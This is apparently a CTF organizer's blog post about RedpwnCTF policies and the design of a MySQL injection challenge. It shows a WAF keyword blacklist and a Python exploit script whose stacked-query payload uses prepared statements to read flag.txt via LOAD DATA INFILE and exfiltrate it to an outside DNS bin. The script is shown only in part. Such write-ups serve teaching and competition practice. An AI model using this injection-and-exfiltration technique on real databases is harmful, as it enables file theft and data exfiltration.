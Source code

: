 These were the policies we as organizers followed during RedpwnCTF. I hope that the reasoning behind the decisions we made is clear and that these policies made it a fair playground for all those who competed. I advise other contest organizers to look at the reasons behind the decisions made for RedpwnCTF and see if they can apply it to their competition.

#### My challenges

For the CTF I wrote two challenges, got-stacks and viper which I tried to make pretty interesting and at a medium-hard difficulty. I will explain my inspirations behind each challenge and how they were created.

#####  got-stacks

The inspiration for this challenge began with using variables within MySQL as well as needing to exfiltrate files from the filesystem on which MySQL was being run. In order to make variables a part of a challenge, it was only possible with multiple statements and I did this by enabling stacked queries. Now a challenge with just stacked queries would be too easy, so in order to make it harder, I decided to add a WAF (web application firewall). The following were the words that were blacklisted.
```javascript
const KEYWORDS = [
 "union","and","or","sleep","hex","char","db","\\\\",
 "/","*","load_file","0x","fl","ag","txt","if"
];
```
At first this blacklist seems pretty strong. In MySQL, it is difficult to use the key commands like `union` or `and` if they are purely blacklisted by the WAF. After doing a bit of research, I found the primitive that I wanted competitors to use. Essentially with stacked queries, it is possible to prepare statements then execute them. To me this seemed like one of the few ways to bypass the WAF, if there are other interesting ways to bypass filters which blacklist `and` or `or` please contact me and let me know. In order to make exfiltration easy, I built a path in the web application so that the exfiltration could be done in a one-shot manner. This path was essentially build a `load_data_infile` query which would load the flag into an outfile using select and prepared statements. The specific query would load the data from flag.txt into the stock table with a known id, stock set to 0, and the vurl would be a URL which could exfil the flag via  a DNSbin. Why this was required is because load_data_infile will not let you load a file with a dynamic name which means you can't load it from for example X'' hex bypass as many teams used. Then, you can use the initializedb route to execute the SQL statements in the outfile and then run notifystock to exfil it. Here is my exploit script.
```python
import requests
import json

base_url = "http://localhost:4001"

# step 1 -> inject sql statement to create new entry

dns_req_bin = input("Enter your dns req bin url (.url.com): ")

data = {"stockid": "416", "name": "a", "quantity": "0", "vurl": "a'); SET @f=0b001011110110100001101111011011010110010100101111011000110111010001100110001011110110011001101100011000010110011100101110011101000111100001110100; SET @w=0b0010111101101000011011110110110101100101001011110110001101110100011001100010111101100001011100000111000000101111011001000110001000101111011100100111000000101110011100110111000101101100; SET @q = CONCAT(\"LOAD DATA INFILE '\", @f, \"' INTO TABLE stock (@t) SET stockid=111, quantity=0, vurl=CONCAT(@t, '" + dns_req_bin + "');\"); SET @z = CONCAT(\"SELECT @q INTO OUTFILE '\", @w,\"'\"); PREPARE s from @z; EXECUTE s;-- "}
data_json = json.dumps(data)
headers = {"Content-Type": "application/json"}

r = requests.post(base_url + "/api/registerproduct", headers=headers, data=data_json)

print(r.text)

# step 2 -> execute sql

data = {"filename": "rp.sql"}
```